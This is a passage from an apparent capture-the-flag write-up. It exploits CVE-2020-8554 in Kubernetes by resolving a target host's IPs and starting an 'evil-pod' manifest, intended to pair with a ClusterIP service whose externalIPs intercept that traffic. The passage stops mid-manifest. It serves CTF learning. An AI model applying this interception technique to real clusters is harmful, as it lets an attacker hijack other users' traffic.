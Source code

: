 This is where the unfixed [CVE-2020-8554](https://nvd.nist.gov/vuln/detail/cve-2020-8554) comes in.
The CVE description says the following:
```
Kubernetes API server in all versions allows an attacker who is able to create a ClusterIP service and set the spec.externalIPs field, to intercept traffic to that IP address [...]
```

Nice, so let's first figure out what the IP address of `static.cscg.live` is so we can create a service with it's external IPs:
``` 
# === commands ===
ctf:~$ dig static.cscg.live
# === output ===
...
static.cscg.live. 280 IN CNAME ingress.k8s.cscg.live.
ingress.k8s.cscg.live. 280 IN A 147.28.207.143
ingress.k8s.cscg.live. 280 IN A 147.28.207.163
ingress.k8s.cscg.live. 280 IN A 147.75.204.231
...
```
The DNS A records reveal the IPs. 

As a proof-of-concept, let's deploy a ClusterIP service and a lightweight app. For simplicity, we start with **HTTP**, not HTTPS. To do this, we create a new .yaml file and deploy a pod + service that serves "Hello" and has the `externalPs` set to those of `static.cscg.live`. To ensure we stay within our privileges, we need to add the right security context and resource limits (leaving them out throws errors indicating their requirement).
*Note: Don't use pods this way when you actually want to deploy a real service. Pods have different behavior and restart policies than deployments. In this case, it was simply more compact.*
```
cat << 'EOF' > evilpod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: ctf
  labels:
    app: evil
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000 
    seccompProfile:
      type: RuntimeDefault

  containers:
    - name: evil
      image: hashicorp/http-echo:0.2.3
      args:
        - "-text=Hello"
        - "-listen=:8080"
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop:
            - ALL
      resources:
        requests:
          cpu: "50m"
          memory: "64Mi"
        limits:
          cpu: "100m"
          memory: "100Mi"
---
apiVersion: v1
```